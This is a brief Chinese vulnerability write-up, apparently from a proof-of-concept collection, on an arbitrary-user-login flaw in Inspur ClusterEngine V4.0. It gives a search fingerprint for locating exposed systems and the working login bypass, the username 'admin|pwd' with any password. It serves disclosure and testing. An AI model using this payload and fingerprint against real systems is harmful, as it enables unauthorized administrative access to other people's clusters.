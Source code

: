# 

# 浪潮ClusterEngineV4.0 任意用户登录漏洞

## 漏洞描述

浪潮ClusterEngineV4.0 存在任意用户登录漏洞，构造恶意的用户名和密码即可获取后台权限

## 漏洞影响

```
浪潮ClusterEngineV4.0
```

## 网络测绘

```
title="TSCEV4.0"
```

## 漏洞复现



登录页面如下



![](./images/202202091850344.png)



```plain
USER： admin|pwd
PASS:  任意
```



成功登陆后台

部分功能是无法使用的



![](./images/202202091850228.png)
